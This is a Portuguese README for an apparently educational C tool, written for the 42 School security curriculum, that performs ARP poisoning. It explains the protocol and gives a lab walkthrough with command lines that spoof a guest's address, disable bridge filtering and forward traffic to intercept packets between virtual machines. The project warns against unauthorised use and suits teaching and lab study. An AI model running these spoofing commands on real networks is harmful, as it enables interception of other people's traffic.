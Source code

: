 # 42 Malcolm

![OS](https://img.shields.io/badge/OS-Linux-blue.svg)
![Language](https://img.shields.io/badge/Language-C-orange.svg)
![Status](https://img.shields.io/badge/Status-Pending_Evaluation-darkgrey.svg?logo=42)
[![Tests](https://github.com/vinicius507/ft_malcolm/actions/workflows/tests.yml/badge.svg)](https://github.com/vinicius507/ft_malcolm/actions/workflows/tests.yml)

[![en](https://img.shields.io/badge/Lang-en-red.svg)](./README.md)
[![pt-br](https://img.shields.io/badge/Lang-pt--br-green.svg)](./README.pt-br.md)

Uma ferramenta de ARP Poisoning escrita em C usando o padrão 99.

> [!WARNING]
>
> Esta aplicação realiza ARP spoofing, uma técnica de ataque que pode
> interromper a comunicação em uma rede. Utilizar ARP spoofing sem permissão é
> uma violação de políticas de segurança e pode ser ilegal. É crucial usar esta
> ferramenta apenas em ambientes controlados, como uma rede de laboratório
> pessoal, para fins educativos ou de teste.
>
> Esta ferramenta foi criada como parte do currículo de Segurança da École 42 e
> destina-se apenas a fins educativos. O autor não apoia nem encoraja o uso
> desta ferramenta para fins maliciosos.

## O que é ARP?

O Address Resolution Protocol é um protocolo da Camada 2 que mapeia endereços
de hardware, como um endereço MAC, para um endereço de protocolo da Camada 3,
como um endereço IPv4.

## Como funciona o ARP poisoning?

O protocolo ARP é um protocolo _stateless_, o que significa que os hosts da
rede armazenarão em cache automaticamente qualquer resposta ARP que receberem,
independentemente de ter sido solicitada ou não.

O ARP poisoning funciona enviando respostas ARP forjadas a um host, associando
um endereço de protocolo ao endereço de hardware do atacante.

## Uso

### Compilando a partir do código-fonte

**Requisitos:**

- Clang 12
- GNU Make
- [Minha biblioteca Libft](https://github.com/vinicius507/libft)

**Instruções:**

1. Clone o repositório do 42 Malcolm:

   ```bash
   git clone https://github.com/vinicius507/ft_malcolm.git

   ```

2. Clone o repositório da Libft:

   ```bash
   git clone https://github.com/vinicius507/libft.git
   ```

3. Navegue até o diretório do projeto:

   ```bash
   cd ft_malcolm
   ```

4. Compile a ferramenta:

   ```bash
   make LIBFT_DIR=../libft/libft -C ./ft_malcolm # Ajuste o caminho, se necessário
   ```

### Compilando com Nix

Se preferir usar Nix, você pode compilar a aplicação navegando até o diretório
do projeto e usando o seguinte comando:

```bash
nix build .#
```

Isso assume que você tem um ambiente Nix válido configurado. O processo de
compilação lidará automaticamente com o download e _linkagem_ das dependências.

### Executando a Aplicação

**Antes de executar:**

- Certifique-se de ter **permissão explícita** para executar esta ferramenta na
  rede alvo.
- Esteja ciente do impacto potencial do ARP poisoning na rede.

**Executando a ferramenta:**

> [!NOTE]
>
> É necessário ter privilégios de root para executar a aplicação.

```bash
./ft_malcolm [OPÇÃO...] IP_FONTE MAC_FONTE IP_ALVO MAC_ALVO
```

**Argumentos Posicionais:**

- `IP_FONTE`: O endereço IP a ser falsificado como fonte.
- `MAC_FONTE`: O endereço MAC a ser falsificado como fonte.
- `IP_ALVO`: O endereço IP do dispositivo alvo.
- `MAC_ALVO`: O endereço MAC do dispositivo alvo.

**Argumentos Opcionais:**

- `-g, --gratuitous`: Enviar um pacote ARP gratuito para broadcast
  (`FF:FF:FF:FF:FF:FF`).
- `-i, --interface`: A interface de rede a ser usada, se não especificada, a
  primeira interface disponível será utilizada.
- `-v, --verbose`: Ativar saída detalhada para informações do pacote.

**Exemplo:**

```bash
./ft_malcolm 192.168.122.67 AA:BB:CC:DD:EE:FF 192.168.122.206 00:11:22:33:44:55
```

## Ambiente de Testes

A aplicação foi testada em um ambiente virtualizado usando QEMU/KVM com a
seguinte configuração:

- **Sistema Operacional do Host (Atacante):** NixOS 24.11
- **Sistema Operacional do Guest 1:** Debian 12
- **Sistema Operacional do Guest 2:** Debian 12
- **Rede:** Rede em modo bridge com DHCP

Para que o ARP poisoning funcione, a rede em modo bridge deve ser configurada
para não filtrar pacotes usando o firewall do sistema host. Isso pode ser feito
executando os seguintes comandos como root no host:

```bash
ip link set dev BRIDGE type bridge nf_call_arptables 0
ip link set dev BRIDGE type bridge nf_call_iptables 0
```

Onde `BRIDGE` é o nome da interface de rede em modo bridge.

Se você quiser encaminhar pacotes do host entre os guests e a rede, pode
habilitar o encaminhamento de IPs executando:

```bash
sysctl -w net.ipv4.ip_forward=1
```

Para realizar o ataque, você pode executar a aplicação no host, falsificando o
endereço IP e MAC do guest como a fonte e o endereço IP e MAC do roteador como
o alvo.

Primeiro, envie um pacote ARP gratuito para interceptar todo o tráfego indo para
`GUEST_1`:

```bash
./ft_malcolm GUEST_1_IP ATTACKER_MAC --interface=BRIDGE --gratuitous
```

Depois, ouça os pacotes ARP de `GUEST_1` solicitando o endereço MAC de
`GUEST_2`:

```bash
./ft_malcolm GUEST_2_IP ATTACKER_MAC GUEST_1_IP GUEST_1_MAC --interface=BRIDGE
```

Verificar o cache ARP em `GUEST_1` deve mostrar o endereço MAC de `GUEST_2`
como o endereço MAC do atacante.

```bash
$ cat /proc/net/arp
Endereço IP      Tipo HW     Flags       Endereço HW          Máscara  Dispositivo
ATTACKER_IP      0x1         0x2         ATTACKER_MAC         *        BRIDGE
GUEST_2_IP       0x1         0x2         ATTACKER_MAC         *        BRIDGE
```

Isso irá interceptar todo o tráfego de `GUEST_1` para `GUEST_2`, permitindo que
você inspecione e modifique os pacotes conforme necessário.

| ![Screenshot do Wireshark mostrando um reply HTTP interceptado](./assets/wireshark.png) |
| :-------------------------------------------------------------------------------------: |
|                    _Wireshark mostrando um reply HTTP interceptado_                     |

